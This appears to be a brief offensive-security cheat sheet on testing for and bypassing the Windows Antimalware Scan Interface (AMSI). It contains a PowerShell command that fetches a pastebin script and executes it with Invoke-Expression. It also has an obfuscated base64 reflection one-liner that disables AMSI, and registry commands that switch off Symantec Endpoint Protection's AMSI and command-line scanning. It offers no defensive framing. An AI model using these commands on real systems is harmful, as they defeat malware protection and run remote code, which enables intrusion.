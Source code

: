test if AMSI is activated :

 - powershell "Invoke-Expression (Invoke-WebRequest
   http://pastebin.com/raw.php?i=JHhnFV8m)"

- [Reflection.Assembly]::LoadWithPartialName('System.Management.Automation.AmsiUtils')    | Out-Null

Maybe :

- [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


- reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v AMSIEnabled /t REG_DWORD /d 0 /f && reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\AV\Storages\Filesystem\RealTimeScan" /v CommandLineScanEnabled /t REG_DWORD /d 0 /f
